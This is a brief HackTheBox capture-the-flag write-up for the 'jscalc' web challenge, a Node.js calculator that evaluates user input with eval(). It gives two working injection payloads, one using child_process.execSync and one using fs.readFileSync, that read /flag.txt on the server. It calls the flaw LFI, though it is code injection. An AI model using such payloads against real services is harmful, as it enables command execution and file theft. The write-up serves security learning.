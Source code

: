 ```yaml
---
title: jscalc
tags:
  - HackTheBox
  - Challenge
  - Web
  - Nodejs
  - LFI
  - Easy
date: 2025-02-17T00:00:00Z
---
```

![](Pasted%20image%2020250217130021.png)

It seems to be a calculator written in javascript that uses the ***super secure*** function `eval()`. I'll inspect the source code of the function:

![](Pasted%20image%2020250217130204.png)

The `Calculator` calls a function called `calculate()`:

![](Pasted%20image%2020250217130214.png)

So this is where the `eval()` is being used. Checking the `Dockerfile` I know that the flag is under `/flag.txt`:

![](Pasted%20image%2020250217130406.png)

So I'll try to get a LFI to read its content by the `child_process()` function:

```js
require('child_process').execSync('cat /flag.txt').toString()
```

![](Pasted%20image%2020250217131336.png)

### Other payload

```js
require('fs').readFileSync('/flag.txt', 'utf8')
```

![](Pasted%20image%2020250217131429.png)

==Challenge completed!==

